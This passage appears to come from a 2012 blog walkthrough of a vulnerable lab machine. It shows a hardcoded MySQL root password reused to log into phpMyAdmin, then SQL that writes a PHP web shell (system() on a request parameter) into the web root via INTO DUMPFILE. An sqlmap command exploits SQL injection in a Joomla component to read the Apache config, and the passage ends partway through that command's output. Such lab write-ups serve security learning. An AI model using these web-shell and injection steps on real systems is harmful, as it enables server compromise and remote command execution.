 Huzzah, root password hardcoded into the configuration file.  Note that this is only the MySQL root password, although its entirely possible that its also the system root password.  We know that there exists a phpMyAdmin listener, so lets log into that with our newfound credentials:

{{< figure src="/images/posts/2012/hrt2_5.jpg" >}}

Now we've got root on the database and access to the phpMyAdmin console.  From here, we can inject a backdoor that allows us to execute commands on the backend system.  This method was taken from [here](http://www.securitytube.net/video/937), though it's not exactly new.

First we create a new table:
```
CREATE TABLE shell(
 Sauce TEXT
) ENGINE = MYISaM;
```

Here we're creating a new table, shell, with a single text field, Sauce, as a MYISaM container ([more here](http://dev.mysql.com/doc/refman/5.0/en/myisam-storage-engine.html)).  Next we'll insert the actual shell interpreter into the table:

```
INSERT INTO shell
VALUES(
'<pre><? @system($_REQUEST["v"]); ?></pre>'
);
```

Next we're going to need to dump to a php file for us to actually run with.  This can be done with the INTO DUMPFILE sql command, like so:

```
SELECT *
INTO DUMPFILE '/var/www/st.php'
FROM shell;
```

How do we know to hit /var/www?  By pulling the default apache2 config file of course:

```
root@bt:/pentest/database/sqlmap# python sqlmap.py --url "http://192.168.1.75:666/index.php?option=com_amblog&view=amblog&catid=-1" -p 'catid' --dbms mysql --file-read='/etc/apache2/sites-available/default'
root@bt:/pentest/database/sqlmap# cat output/192.168.1.75/files/_etc_apache2_sites-available_default 
[SNIP]
<VirtualHost *:666>
    ServerAdmin webmaster@localhost

    DocumentRoot /var/www
    <Directory />
        Options FollowSymLinks
        AllowOverride None
    </Directory>
    <Directory /var/www/>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride None
        Order allow,deny
        allow from all
    </Directory>

    ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
    <Directory "/usr/lib/cgi-bin">
        AllowOverride None
        Options +ExecCGI -MultiViews +SymLinksIfOwnerMatch
        Order allow,deny
        Allow from all
    </Directory>

```